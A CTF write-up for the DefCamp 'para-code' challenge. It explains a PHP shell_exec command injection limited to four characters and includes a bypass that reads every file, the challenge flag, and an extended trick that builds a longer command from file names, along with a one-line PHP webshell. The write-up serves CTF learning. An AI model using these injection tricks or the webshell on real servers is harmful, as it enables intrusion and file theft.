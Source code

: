 # DefCamp CTF - para-code

## Description
Command injecion 4 characters limited
```php
if (strlen($_GET['start']) < 5){
  echo shell_exec($_GET['start']);
}
```

If we can inject `cat *`, we could read all files in the directory but this command has 5 characters so it's doesn't work.

## Bypass
```bash
# using m4(same as cat)
m4 *
```

**flag**: `791b21ee6421993a8e25564227a816ee52e48edb437909cba7e1e80c0579b6be`


## Extended

**In bash, write file input from stdin**:
```bash
>cmd.php
#> <?php system('id'); ?>
cat cmd.php # <?php system('id'); ?>
```

**From that, we got**:
```bash
>php # newline - end command here!
>ex.\\
>ind\\
>\ \\
>cat\\

ls -t>_ # sort by time, in real senario, we have to write a file for this task, just like below

sh _
# hello
```

`_` file:
```bash
cat _
#_            error command/not command raise error but still being ignored and keep running!!
#cat\
# \
#ind\
#ex.\
#php
#index.php
```

# References:
https://github.com/orangetw/My-CTF-Web-Challenges#babyfirst-revenge-v2

